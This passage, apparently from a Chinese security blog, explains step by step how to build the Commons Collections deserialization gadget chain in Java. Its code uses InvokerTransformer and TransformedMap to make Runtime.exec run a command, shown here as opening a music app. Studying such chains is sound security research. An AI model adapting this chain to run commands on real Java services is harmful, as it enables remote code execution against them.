 ```java
Runtime runtime = Runtime.getRuntime();
new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open /Applications/NeteaseMusic.app"}).transform(runtime);
```

使得transform的反射接收参数后变为

```java
Class cls = runtime.getClass();
Method method = cls.getMethod(exec, new Class[]{String.class});
return method.invoke(runtime, new Object[]{"open /Applications/NeteaseMusic.app"});
```

![image-20250217202812452](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250217202812563.png)

然后我们需要再往上找，看哪里可以调用InvokerTransformer的transform方法，因为反序列化会走到他的readObject方法中，所以我们的调用链是从readobject开始逐步走到InvokerTransformer的transform方法中

寻找InvokerTransformer的transform的上层调用点时，发现了TransformMap类，它的checkSetValue方法调用了transform

![image-20250217210546525](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250217210546568.png)

而他的valueTransformer在构造函数中被赋值，因为构造方法为`protected`方法

![image-20250217210646013](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250217210646056.png)

需要用decorate方法来调用构造方法，因为checkSetValue调用transform方法只用到了valueTransformer，所以第一个参数只需要传入一个空的map，第二个参数传入一个null即可

![image-20250217210814726](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250217210814774.png)

再往上找哪里调用了checkSetValue方法，发现在AbstractInputCheckedMapDecorator抽象类中MapEntry类的setValue方法里调用到了，而AbstractInputCheckedMapDecorator抽象类为TransformMap的父类

![image-20250217213101405](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250217213101447.png)

![image-20250217213219150](https://blogandnotebucket.oss-cn-hangzhou.aliyuncs.com/blog/20250217213219196.png)

所以我们可以通过entry来调用他的setValue方法，遍历一个map，获取entry，再调用entry的setValue方法

map不能为空，可先给一对任意键值对

```java
				Runtime runtime = Runtime.getRuntime();
        InvokerTransformer invokerTransformer= new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"open /Applications/NeteaseMusic.app"});
        HashMap Map = new HashMap();
        Map<Object,Object> transformedMap = TransformedMap.decorate(Map,null,invokerTransformer);
        Map.put("aaa","bbb");
        for (Map.Entry entry:transformedMap.entrySet())
        {
            entry.setValue(Runtime.getRuntime());
        }
```

